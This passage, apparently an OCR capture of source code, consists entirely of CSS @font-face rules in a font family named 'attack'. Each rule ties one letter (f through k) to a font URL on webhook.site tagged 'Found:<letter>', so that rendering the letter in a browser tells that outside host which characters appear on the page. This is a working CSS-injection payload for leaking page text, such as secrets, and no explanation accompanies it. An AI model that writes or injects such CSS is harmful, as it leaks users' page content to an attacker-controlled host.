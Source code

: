           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:f');

           unicode-range:U+0066;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:g');

           unicode-range:U+0067;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:h');

           unicode-range:U+0068;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:i');

           unicode-range:U+0069;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:j');

           unicode-range:U+006A;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:k');

           unicode-range:U+006B;

}

@font-face{
